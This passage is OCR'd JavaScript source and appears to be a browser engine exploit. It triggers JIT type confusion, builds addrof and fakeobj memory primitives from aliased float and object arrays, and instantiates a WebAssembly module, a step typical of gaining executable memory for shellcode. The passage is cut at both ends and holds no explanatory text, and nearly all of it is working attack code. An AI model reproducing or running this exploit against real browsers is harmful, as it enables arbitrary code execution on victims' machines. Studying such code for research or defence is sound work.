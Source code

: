 ```jsx

    value >>= 1;
    value += 10;

    var array = Array(value);
    array[0] = 1.1;
    arr2 = [{}, 2.2, 2.2, 2.2, 2.2, 2.2];
    // yee2 = arr2;
    // var b = [2.2, 2.2, 2.2, 2.2, 2.2];
    yee2 = arr2;
    return [array, {}];
};

trigger();

for (let i = 0; i < 100000; ++i) {
    trigger();
}

yee = trigger()[0];
yoff = 0;

function addrof(o) {
    yee2[0] = o;
    yee2[1] = o;
    return yee[yoff].f2i() >> 32n;
}

function fakeobj(o) {
    o = o & 0xffffffffn;
    yee[yoff] = (o << 32n | o).i2f();
    return yee2[0];
}

function main() {

    for (let i = 10; i < 0x100; i-=-1) {
        if ((yee[i].f2i() & 0xffffffffn) == 0xcn) {
            yoff = i+1;
            break;
        }
        if ((yee[i].f2i() >> 32n) == 0xcn) {
            yoff = i+1;
            break;
        }
    }

    console.log("yoff", yoff);
    let a = [1.1, 1.1, 1.1, 1.1, 1.1, 1.1];

    console.log("WASM start");
    var wasm_code = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x85, 0x80, 0x80, 0x80, 0x0, 0x1, 0x60, 0x0, 0x1, 0x7f, 0x3, 0x82, 0x80, 0x80, 0x80, 0x0, 0x1, 0x0, 0x4, 0x84, 0x80, 0x80, 0x80, 0x0, 0x1, 0x70, 0x0, 0x0, 0x5, 0x83, 0x80, 0x80, 0x80, 0x0, 0x1, 0x0, 0x1, 0x6, 0x81, 0x80, 0x80, 0x80, 0x0, 0x0, 0x7, 0x91, 0x80, 0x80, 0x80, 0x0, 0x2, 0x6, 0x6d, 0x65, 0x6d, 0x6f, 0x72, 0x79, 0x2, 0x0, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0x8a, 0x80, 0x80, 0x80, 0x0, 0x1, 0x84, 0x80, 0x80, 0x80, 0x0, 0x0, 0x41, 0x2a, 0xb]);
    var wasm_mod = new WebAssembly.Module(wasm_code);
    var wasm_instance = new WebAssembly.Instance(wasm_mod);
    var f = wasm_instance.exports.main;

    // found a
    offset = (addrof(a) - addrof(yee) - 0x10n) / 8n
```